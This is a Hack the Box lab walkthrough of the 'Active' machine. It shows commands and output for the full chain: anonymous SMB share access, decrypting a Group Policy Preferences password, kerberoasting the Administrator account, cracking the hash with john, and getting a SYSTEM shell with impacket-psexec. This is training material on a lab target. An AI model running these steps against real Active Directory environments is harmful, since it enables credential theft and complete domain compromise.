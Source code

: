 ```yaml
---
layout: post
title: Hack the Box - Active
author: Kolja
categories: [HtB]
tags: [ad]
---
```


This box was part of the  Active Directory 101 path, which is why I took a look at it.

## Enumeration
As part of the enumeration I looked at the shares:
```
smbmap -H 10.10.10.100                            
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions Comment
        ----                                                    ----------- -------
        ADMIN$                                                  NO ACCESS   Remote Admin
        C$                                                      NO ACCESS   Default share
        IPC$                                                    NO ACCESS   Remote IPC
        NETLOGON                                                NO ACCESS   Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS   Logon server share 
        Users                                                   NO ACCESS
```

There is a `Replication` share, which seems interesting. To download all files we can use:
```
smbclient //10.10.10.100/Replication              
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
```

There is an encrypted password contained in the files:
```
grep -r pass .                      
./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml:<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
```

## Foothold
We can decrypt this password, as the key for this was leaked in the past:
```
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
GPPstillStandingStrong2k18
```

So we now have credentials: `SVC_TGS/GPPstillStandingStrong2k18`
 
## Privilege Escalation
We can use the credentials to try to get tickets for kerberoastable users using `impacket`:
```
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request -outputfile hashes
```

There is a ticket for the Administrator user. We can crack this:
```
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:06 DONE (2022-05-24 06:23) 0.1582g/s 1667Kp/s 1667Kc/s 1667KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We now have credentials for the Administrator user and can use `impacket-psexec` to execute commands on the system:
```
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file VNYPCidi.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service zHHQ on 10.10.10.100.....
[*] Starting service zHHQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
